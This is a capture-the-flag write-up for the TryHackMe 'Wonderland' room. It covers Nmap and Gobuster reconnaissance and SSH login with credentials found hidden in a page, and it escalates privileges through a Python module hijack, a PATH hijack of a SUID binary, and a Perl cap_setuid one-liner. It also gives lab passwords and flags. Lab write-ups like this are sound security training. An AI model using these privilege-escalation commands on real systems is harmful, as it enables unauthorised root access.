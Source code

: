 # Wonderland

[Link to the room](https://tryhackme.com/room/wonderland)

## Nmap scan

```
# Nmap 7.91 scan initiated Mon Mar  8 11:54:32 2021 as: nmap -sC -sV -oN nmap.txt 10.10.176.220
Nmap scan report for 10.10.176.220
Host is up (0.082s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar  8 11:54:54 2021 -- 1 IP address (1 host up) scanned in 21.96 seconds
```

## Gobuster scan

I noticed that maybe that `r` directory could end up forming a word so i started scanning:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.176.220/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/03/08 11:57:50 Starting gobuster
===============================================================
/img (Status: 301)
/r (Status: 301)
===============================================================
2021/03/08 11:59:29 Finished
===============================================================
```

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.176.220/r
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/03/08 12:00:12 Starting gobuster
===============================================================
/a (Status: 301)
===============================================================
2021/03/08 12:01:10 Finished
===============================================================
```

At the end, the url looks like form "rabbit": http://10.10.176.220/r/a/b/b/i/t/

## Looking around the rabbit hole

After getting into http://10.10.176.220/r/a/b/b/i/t/ and inspecting the page i found a hidden p tag with this in it:

```
alice:HowDothTheLittleCrocodileImproveHisShiningTail
```

Maybe ssh password (?)

## SSH access


### alice

Well looks like it is. I could get access to the machine through ssh using the above credentials yeah!

Ok in `/home/alice` directory i found `root.txt` and `walrus_and_the_carpenter.py`. That last python file can be executed as the user `rabbit`. It just print random lines of a poem.

```
alice@wonderland:~$ sudo -l
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

The file have the next line `import random` which is a relative path so... i think we can work with that. I just wrote a little fake `random.py` file with the next content:


```
import pty

def choice(something_about_a_poem):
        pty.spawn("/bin/bash")
        exit()
```

Executing `walrus_and_the_carpenter.py` now as `sudo -l` showed, will execute our fake random module and give us access to `rabbit` user:

```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ 
```

### rabbit

I like to run `HOME=/home/$USER` to have the right user home directory configured in the shell.

Looks like `rabbit` has access to a SUID executable: `teaParty`. It ask you for something nice but just core dump for some reason.

I decided to download the file to my machine so i just passed the file to `alice` and download it. It is not stripped so that is cool for looking inside hehe

Ok this is funny:

```
void main(void)

{
  setuid(0x3eb);
  setgid(0x3eb);
  puts("Welcome to the tea party!\nThe Mad Hatter will be here soon.");
  system("/bin/echo -n \'Probably by \' && date --date=\'next hour\' -R");
  puts("Ask very nicely, and I will give you some tea while you wait for him");
  getchar();
  puts("Segmentation fault (core dumped)");
  return;
}
```

First the program just print the core dumped error, lmao. Second, it set the uid to 1003 (probably the `hatter` user).

I can see that the program uses the command `date` inside the `system` function with a relative PATH. Adding `/home/rabbit` to `rabbit` PATH: `PATH="$HOME:$PATH"` and creating `date` script in it with something... funny in it will do i think. (Remember to execute `chmod a+x date` to allow the system to run the script)

Lets try it, this is my `date` script:

```
#! /bin/sh

bash -p
```

And...

```
rabbit@wonderland:~$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:~$
```

Nice!

### hatter

I found a `passwd.txt` in `hatter` home directory. It contain `WhyIsARavenLikeAWritingDesk?` that is hatter password so we got to a "checkpoint":

`hatter:WhyIsARavenLikeAWritingDesk?`

We can now conect to hatter account directly.

Looks like the user flag is not here neither. Alice had the `root.txt` file in her directory, could be possible that we can just read `/root/user.txt` or something? In wonderland the things are a bit weird so lets try i dont know:

```
hatter@wonderland:~$ cat /root/user.txt
thm{"Curiouser and curiouser!"}
```

So.. we got the user flag, nice (Totally on porpouse) lets go for the root one.

After i while i decided to execute `linpeas` and i saw something interesting:

```
Files with capabilities:
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

Perl can manipulate the process UID so... lets try something:

```
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash -p";'
root@wonderland:~# 
```

Jackpot! We are root, lets get that root flag with `cat /home/alice/root.txt`:

`thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}`
